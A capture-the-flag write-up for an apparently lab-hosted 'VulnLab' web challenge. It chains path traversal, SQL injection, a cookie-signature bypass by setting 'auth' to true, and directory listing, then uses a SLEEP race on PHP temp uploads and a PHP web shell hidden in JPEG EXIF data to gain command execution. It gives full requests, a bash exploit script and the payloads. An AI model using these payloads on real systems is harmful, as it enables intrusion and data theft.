 # VulnLab

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Upon browsing our VulnLab instance we immediately notice a request to `/thumbnail?file=bg2.jpg`. The first thing that comes to mind is of course path traversal. In fact if we request `/etc/passwd` with a classic payload we get an error message:

```
GET /thumbnail?file=../../../../../../../etc/passwd HTTP/1.1

Reading content from this directory is denied
```

which is different from say this one:

```
GET /thumbnail?file=../../../../../../../tmp/foobar HTTP/1.1

File doesn't exist
```

We keep this information in mind for the moment: it will be useful later. The second thing that stands out are requests to an `/analytics` endpoint:

```
GET /analytics?page=/news/1 HTTP/1.1
```

It's easy to see that `/analytics` is vulnerable to SQL injection so we can dump the db where we find a users table:

```
Database: vulnlab
Table: user
[1 entry]
+----+----------------------------------+-----------+
| id | password                         | username  |
+----+----------------------------------+-----------+
| 1  | ******************************** | bob.jones |
+----+----------------------------------+-----------+
```

The hash did not crack - at least for me - but now we have a valid username we can use and try bruteforcing the login form:

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Finding a valid password is of course left as an exercise to the reader, but like in any Adam's challenge, when bruteforce is involved you can just use wordlists suggested on HackingHub.io.

We now have a new endpoint `/account/files` that lists our user's medical results:

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

```
GET /account/files HTTP/1.1

{"files":[{"link":"\/uploads\/bob.jones\/medical-report-to-complete.pdf","name":"medical-report-to-complete.pdf","extension":"pdf","size":60154}]}
```

Here we notice that we have "files" list where bob.jones, our username, is somehow involved in the path.

More importantly, upon logging in we have a strange cookie that contains some useful information:

```
Cookie: token=eyJkYXRhIjoiZXlKcFpDSTZNaXdpZFhObGNtNWhiV1VpT2lKaWIySXVhbTl1WlhNaWZRPT0iLCJhdXRoIjoiNmI3ZjZjYzI0NjhjNzBhN2U5N2I0MjM3ZGEyMDBmY2YifQ%3D%3D
```

The cookie decodes to

```
{"data":"eyJpZCI6MiwidXNlcm5hbWUiOiJib2Iuam9uZXMifQ==","auth":"6b7f6cc2468c70a7e97b4237da200fcf"}
```

and the info inside the JSON data attribute decodes to:

```
{"id":2,"username":"bob.jones"}
```

Maybe if we are able to change the data inside the cookie to a path traversal payload like `"username"="../../../../etc/passwd"`, we can try to read arbitrary files.

This part can be tricky: the auth hash authenticates the information inside the data attribute of our JSON. Without knowing some secret information we cannot alter what's inside data. But we can fool the hash validation by changing the "auth" string with a boolean true:

```
{"data":"eyJpZCI6MiwidXNlcm5hbWUiOiJib2Iuam9uZXMifQ==","auth":true}
```

Notice that here we are using a "counterfit" token:

```
GET /account/files HTTP/1.1
Cookie: token=eyJkYXRhIjoiZXlKcFpDSTZNaXdpZFhObGNtNWhiV1VpT2lKaWIySXVhbTl1WlhNaWZRPT0iLCJhdXRoIjp0cnVlfQ%3d%3d

{"files":[{"link":"\/uploads\/bob.jones\/medical-report-to-complete.pdf","name":"medical-report-to-complete.pdf","extension":"pdf","size":60154}]}
```

This not only works without giving errors, but it allows us to alter the inner content of the data attribute. Using a very handy burp extension which is called Hackvector (or of course constructing payloads manually) we can use something like this:

```
GET /account/files HTTP/1.1
Host: veap5r6i.eu1.ctfio.com
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../../etc/passwd"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>

{"error":"Not a valid directory"}
```

and we get an interesting error. What if we try to look at /etc or /tmp?

```
GET /account/files HTTP/1.1
Host: veap5r6i.eu1.ctfio.com
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../../etc"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>

{"files":[{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/.pwd.lock","name":".pwd.lock","extension":"lock","size":0},{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/X11","name":"X11","extension":"","size":4096},{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/adduser.conf","name":"adduser.conf","extension":"conf","size":3028},...
```

Interestingly enough we have a way to list directories.

If you want to play around an alternative way is using a simple bash script:

{% code title="lfi-exploit.sh <domain> <path>" lineNumbers="true" %}
```bash
#!/bin/sh

inside='{"id":2,"username":"'$2'"}'
inside=$(/bin/echo -n $inside | base64)
token=$(/bin/echo -n '{"auth":true,"data":"'$inside'"}' |base64)


echo $token
curl $1/account/files -H "Cookie: token=$token" | jq
curl $1/account/files -H "Cookie: token=$token" | jq  -r '.files[] |.link'
```
{% endcode %}

For flag number 2 it's enough to list `../` to find a secret file.

But now what? Remember that at this point we have three things that we have to put together to reach a much better result (RCE in the end):

1. a SQL injection on `/analytics?page=/news/1`;
2. the possibility to list directories, and in particular `/tmp`;
3. maybe (we are not sure yet), the possibility to include files from `/tmp` directory via `/thumbnail?file=../../../../../../../tmp/foobar`.

Are we able to upload files to /tmp? Sure: during file upload PHP, the language of choice by Adam, creates temporary files under /tmp. Files have a random name, so it will be hard to list /tmp/ with the second vulnerability unless we can also let the server SLEEP during upload using the SQL injection. So we can try something like this:

```
POST /analytics?page=a';SELECT+SLEEP+(60)%23 HTTP/1.1
...
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoy6htU17IDYnPK7v
Content-Length: 221

------WebKitFormBoundaryoy6htU17IDYnPK7v
Content-Disposition: form-data; name="file_to_upload"; filename="shell.php"
Content-Type: text/php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryoy6htU17IDYnPK7v--
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

this gives us 60 second to list files under /tmp/:

```
GET /account/files HTTP/1.1
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../tmp/"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

So now it's just a matter of including what we uploaded and...

```
GET /thumbnail?file=../../../../../../../tmp/phpzaP6ow HTTP/1.1

HTTP/1.1 200 OK
Server: nginx/1.22.0 (Ubuntu)
Date: Sat, 06 Jul 2024 15:02:10 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Length: 22

Not a valid image file
```

we need to overcome the last defense with a real image that also contains actual php code.

Please note that a valid jpg image is necessary because, as you will see once you have a shell, there is this restriction in place:

```php
if (@exif_imagetype($file)) {
	header('Content-Type: image/jpg');
	include_once($file);
} else {
	die("Not a valid image file");
}
```

I order to facilitate the process we can create a very simple form on our machine to do the POST:

```html
<form method="post" enctype="multipart/form-data" action="https://xyz.eu1.ctfio.com/analytics?page=a';SELECT SLEEP(300)-- -">
        <input type="file"  name="file_to_upload" >
        <input type="submit" name="submit">
        </form>
```

and before uploading a real jpg we can insert in it a PHP payload with exiftool:

```bash
exiftool  -author='<?php system($_GET["cmd"]); ?>' test.jpg
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

This part can be quite tricky but in the end you will have command exectuion and you can also grab a valid shell

```bash
www-data@3af02839d4cf:/$ wc -c /flag.txt
46 /flag.txt
```
